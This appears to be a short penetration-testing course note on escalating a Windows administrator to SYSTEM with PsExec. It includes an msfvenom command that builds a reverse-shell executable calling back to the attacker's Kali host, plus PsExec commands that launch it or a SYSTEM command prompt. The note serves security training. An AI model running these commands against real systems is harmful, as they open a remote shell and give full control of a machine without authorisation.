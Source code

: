 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

To escalate from an admin user to full SYSTEM privileges, you can use the PsExec tool from Windows Sysinternals.

[https://docs.microsoft.com/en-us/sysinternals/downloads/psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

A copy is included in the course tools ZIP archive.

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe -o reverse.exe
```

```powershell - target
.\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[4._File Transfers]]

#### RDP
RDP'd in and then just ran the command prompt as Administrator, followed by:

```command prompt - target
powershell
```

```powershell - target
.\PsExec64.exe -i -s cmd.exe
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
